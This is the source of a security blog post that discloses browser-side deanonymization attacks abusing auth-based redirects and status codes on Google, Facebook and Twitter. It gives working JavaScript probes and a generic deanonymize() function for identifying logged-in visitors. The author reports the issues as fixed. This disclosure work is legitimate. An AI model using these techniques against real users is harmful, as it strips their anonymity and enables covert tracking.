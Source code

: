 ```yaml
---
layout: post
title: Novel Techniques for User Deanonymization Attacks
---
```

_**TL;DR**: By abusing auth-based redirections and user-specific URIs on modern web applications, an attacker can easily identify and deanonymize any given predefined group of users across the web._

Frankly, this is not really the first time I write about this kind of issues; I first drew attention to this in a thread I initially posted on the [webappsec mailing list](http://www.webappsec.org/lists/websecurity) almost a year ago<a href="#1">[1]</a>, but for some reason, that didn't receive enough attention. Hopefully, the implications I'm going to demonstrate in this writeup would be sufficient for people to start taking the appropriate precautions against this kind of privacy threats out there!

Well, it all started with me logging into my Gmail account as usual, just to notice a redirection being made to a URI specified in a `GET` parameter named "___continue___" with my email address in a second `GET` parameter named "___email___". Here's our interesting endpoint:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=<URI>&email=<email_address>
{% endhighlight %}
The fun starts when you tamper the value of that "___email___" param, as when you do that, you wouldn't get redirected to the URI specified in the "___continue___" param, but instead, you get redirected to a Gmail re-authentication page! While if you just tamper the value of the "___continue___" param, you still get redirected as long as it's a "[*.google.com](#)" endpoint and the "___email___" param does point to your own email address.

So far, so good. Now, the question is, how could an attacker maliciously exploit such behavior? "Deanonymization" is the word! Here's how:


First, we get the URI of any embeddable resource hosted on "[*.google.com](#)"; a small icon/image would typically do the job. Then we set that "___continue___" param to the URI of that resource, and we set the "___email___" param to the email address of a given target we want to deanonymize (say "`target@gmail.com`"). Like this:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=target@gmail.com
{% endhighlight %}
Now, we have an endpoint that points to an image resource when the email address of the current Gmail user is "`target@gmail.com`" but points to a webpage otherwise! Cool, here's a sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=';
    var img = new Image();
    img.src = endpoint + email;
    window.onload = function() {
        if (img.height === 213 && img.width === 171) {
            alert('Deanonymized successfully!');
        }
    };
    document.documentElement.appendChild(img);
}('target@gmail.com'));
{% endhighlight %}
Note that I had reported this issue to the Google security team and it has been fixed a long time ago. ...end of story? Not so fast!

They initially pushed a short-term fix by implementing a regex-based blacklist (on top of their permissive whilelist), where they don't generally allow redirections to any endpoint that ends with a file extension such as "`.jpg`", "`.js`", "`.ico`", et al! Which basically means, if you can find an open redirect on "[*.google.com](#)" or even some endpoint that points to an embeddable resource but doesn't end with a file extension, you still have a working exploit! Great, but what if you are just not lucky enough to find something like that? Oh, no worries, the fun never ends:

Well, we know that as long as it's a valid "[*.google.com](#)" endpoint, a redirection shall happen; all we need here is another distinctive behavior that depends on something else other than embeddable resources. What possibly could that be? Oh, HTTP status codes come to the rescue! Here it goes:

What happens if we simply use an endpoint that points to a non-existent resource? Obviously, we get redirected to an error page, and an error page typically returns a "`404 Not Found`" status code. Yet another sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/404&email=';
    var script = document.createElement('script');
    script.src = endpoint + email;
    script.onerror = function() {
        alert('Deanonymized successfully!');
    };
    document.documentElement.appendChild(script);
}('target@gmail.com'));
{% endhighlight %}
Oops! ...works like a charm (as of now, they fixed this by disallowing redirections on `GET` requests altogether) but with one little problem, Google makes use of the "`X-Content-Type-Options: nosniff`" header which tells a browser not to do content type sniffing, disallowing embedding resources that don't return the right MIME type. Luckily, Firefox [doesn't seem to respect that header](https://bugzilla.mozilla.org/show_bug.cgi?id=471020) while working with script elements, but Chrome does respect it! Well, not exactly! It turns out that Chrome doesn't respect it while working with external stylesheets and proceeds to interpret the resource anyway:
<br /><a href="/images/ChConsole.png" target="_blank"><img class="innerImg" src="/images/ChConsole-thumb.png" alt="Chrome console"></a><br />
So, all we have to do is use a link element instead of a script element when running on Chrome. Fair enough, here's one single generic exploit that combines all of these tricks together to deanonymize whoever you want, on whichever browser he uses, against whatever webapp you please:
<div style="font-size: 75%">
{% highlight javascript linenos %}
/**
 * Deanonymize a predefined group of users, given sufficient arguments.
 * @param attackMethod {string}, the method of the attack (either 'redirection' or 'statusCode').
 * @param endpoint {string}, the vulnerable endpoint with the user ID parameter last.
 * @param idList {array}, a list of the targeted users' IDs.
 * @param callback {function}, a callback function to pass all results to.
 * @return {array}, an ordered output array with boolean values.
 */
function deanonymize(attackMethod, endpoint, idList, callback) {
    var elNodes, testFn;
    var output = [];
    // register a new cross-browser event listener
    var addListener = (function() {
        return (window.addEventListener) ? window.addEventListener :
            // for IE8 and earlier versions support
            function (evName, callback) {
                window.attachEvent.call(this, 'on'+evName, callback);
            };
    }());
    var createElements = function(tagName) {
        var i, l, el;
        var elNodes = [];
        for (i = 0, l = idList.length; i < l; i++) {
            el = document.createElement(tagName);
            if (tagName !== 'link') {
                el.src = endpoint + idList[i];
            } else {
                el.href = endpoint + idList[i];
                el.rel = 'stylesheet';
            }
            if (tagName !== 'img') {
                el.onerror = function() {
                    this.parentElement.removeChild(this);
                };
            }
            elNodes.push(el);
            document.documentElement.appendChild(el);
        }
        return elNodes;
    };
    var assess = function(testFn) {
        var i, l;
        for (i = 0, l = elNodes.length; i < l; i++) {
            if (testFn(elNodes[i])) {
                output.push(true);
            } else {
                output.push(false);
            }
        }
        callback(output);
    };
    if (attackMethod === 'redirection') {
        elNodes = createElements('img');
        testFn = function(imgNode) {
            if (imgNode.naturalHeight !== 0 && imgNode.naturalWidth !== 0) {
                return true;
            }
            return false;
        };
    } else if(attackMethod === 'statusCode') {
        elNodes = (/chrome/i.test(navigator.userAgent)) ? createElements('link') :
                           createElements('script');
        testFn = function(el) {
            if (el.parentNode !== document.documentElement) {
                return true;
            }
            return false;
        };
    }
    addListener.call(window, 'load', function() {assess(testFn);});
}
{% endhighlight %}
</div>

The story doesn't end here either, these issues are too widespread than you can imagine! I'm talking about Facebook, Twitter and the list goes on! Here's a couple of variations, just to mention a few:

As for Facebook, you could have simply deanonymized a bunch of users based on their profile IDs (using the generic exploit above) by doing something like:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://www.facebook.com/feed/export/service_redirect.php?service=1&id=', [10001, 10003], alert);
{% endhighlight %}
Now, if any of the users whose profile ID is one of these (10001, 10003) visits our website, he'll get immediately deanonymized! (of course that's fixed now.)

And as for Twitter, you could do it using the ID of any tweet(s) that belongs to your target(s). Like this:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://twitter.com/intent/retweet?tweet_id=', [10001, 10003], alert);
{% endhighlight %}
But why a tweet ID in particular? That's because I couldn't find any vulnerable user-specific endpoints there! So, alternatively, we exploit the fact that a twitter user cannot retweet his own tweets! (also fixed)

# Conclusion:
The modern web continues to prove itself as a very compromised zone; from timing attacks to nasty techniques like that, your identity and your data are, one way or another, prone to be exposed anytime as you navigate on. Do NOT browse while being authenticated to other web applications (or use <a href="https://www.requestpolicy.com" target="_blank">RequestPolicy</a> if possible). Do NOT allow scripts on untrusted websites (<a href="https://noscript.net">NoScript</a> is always a good idea; [AnonTab](/projects/#AnonTab) too!).

# References:
<a name="1" style="color: black">[1]: </a><a href="https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html" target="_blank">https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html</a><br />
[2]: <a href="https://hackerone.com/reports/44814" taget="_blank">https://hackerone.com/reports/44814</a>
